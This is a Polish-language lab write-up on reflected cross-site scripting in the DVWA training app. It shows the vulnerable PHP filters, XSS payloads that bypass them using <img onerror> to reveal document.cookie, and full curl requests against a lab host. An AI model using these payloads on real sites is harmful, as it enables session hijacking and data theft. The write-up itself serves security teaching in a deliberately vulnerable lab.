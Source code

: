 # Reflected XSS
## Opis techniki
<blockquote>
Reflected Cross-Site Scripting (XSS) to podatność, która pozwala atakującemu wstrzyknąć złośliwe skrypty do stron internetowych wyświetlanych przez innych użytkowników. Jest to osiągane poprzez dołączenie złośliwego skryptu jako części adresu URL, który jest przetwarzany przez serwer i wysyłany do przeglądarki użytkownika, która następnie wykonuje skrypt (jako część kodu strony).

Oto kilka kluczowych cech i zagrożeń związanych z Reflected XSS:
* Brak odpowiedniej walidacji danych wejściowych: W przypadku Reflected XSS, złośliwe skrypty są wstrzykiwane poprzez nieweryfikowane lub nieprawidłowo walidowane dane wejściowe od użytkownika. Jeżeli aplikacja nie waliduje odpowiednio tych danych, atakujący może wprowadzić złośliwe skrypty, które są następnie odbijane do użytkownika przez serwer.
* Zależność od interakcji użytkownika: Reflected XSS zwykle wymaga od użytkownika kliknięcia na złośliwy link lub wprowadzenia danych w niezaufanej stronie. To sprawia, że ataki są często celowane i mogą być wykorzystywane w celach phishingu czy kradzieży danych.
* Krótkotrwały charakter: W przeciwieństwie do Stored XSS, złośliwy skrypt w Reflected XSS nie jest przechowywany na serwerze. Zamiast tego, skrypt jest odbijany jednokrotnie do użytkownika. Oznacza to, że skutki ataku mogą być mniej trwałe, ale jednocześnie trudniejsze do wykrycia.
* Zagrożenie dla sekretów: Reflected XSS może prowadzić do kradzieży wrażliwych danych, takich jak ciasteczka sesji, co może umożliwić atakującemu przejęcie sesji użytkownika.
</blockquote>

## Zapobieganie
<blockquote>
W celu uniknięcia tego typu podatności, należy prawidłowo zastosować kodowanie danych wyjściowych lub użycie listy dozwolonych znaków. Można również wykorzystać mechanizmy zabezpieczające przeglądarki, takie jak Polityka Bezpieczeństwa Treści (Content Security Policy - CSP), które mogą ograniczyć możliwość wykonania złośliwych skryptów.
</blockquote>

## DVWA labs
- [DVWA Reflected XSS #2 - Medium](#dvwa-XSS-Reflected-1---medium)

- [DVWA Reflected XSS #3 - High](#dvwa-XSS-Reflected-2---high)

<br/>

## DVWA Reflected XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie tagów <script>

#### Kod źródłowy strony `PHP`
```php
<?php
header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = str_replace( '<script>', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.236.56/vulnerabilities/xss_r` <br/>
URL: `http://10.10.236.56/vulnerabilities/xss_r/?name=<script>alert(document.cookie)</script>'`

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'GET' -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cscript%3Ealert%28document.cookie%29%3C%2Fscript%3E' -H $'Upgrade-Insecure-Requests: 1' \ -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=medium' \ $'http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E'
```
  
#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Reflected_med.png "Po wykonaniu odpowiedniego zapytania następuje ujawnienie cookies użytkownika.")

Do obejścia zabezpieczenia wykorzystano tag `<img>` zamiast script. Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu w przeglądarce użytkownika i ujawnienie cookies.
<br/>
<br/>

## DVWA Reflected XSS #2 - Hard
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Dokładniejsze filtrowanie ciągu znaków "<script"
* Filtry są teraz case-insensitive

#### Kod źródłowy strony `PHP`
```php
<?php

header ("X-XSS-Protection: 0");

// Is there any input?
if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
    // Get input
    $name = preg_replace( '/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i', '', $_GET[ 'name' ] );

    // Feedback for end user
    echo "<pre>Hello ${name}</pre>";
}
?> 
```

#### Komenda curl - [Wzór zapytania]
```bash
curl -i -s -k -X $'GET' \ -H $'Host: 10.10.236.56' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Referer: http://10.10.236.56/vulnerabilities/xss_r/' -H $'Upgrade-Insecure-Requests: 1' \ -b $'PHPSESSID=o8bg59jl012q96i1sjk4p9ieo0; security=high' \ $'http://10.10.236.56/vulnerabilities/xss_r/?name=%3Cimg+src+onerror%3Dalert%28document.cookie%29%3E'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_Reflected_high.png "Po wykonaniu odpowiedniego zapytania następuje ujawnienie cookies użytkownika.")
<br/>

Do obejścia zabezpieczenia wykorzystano tag `<img>` zamiast script. Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu w przeglądarce użytkownika i ujawnienie cookies.
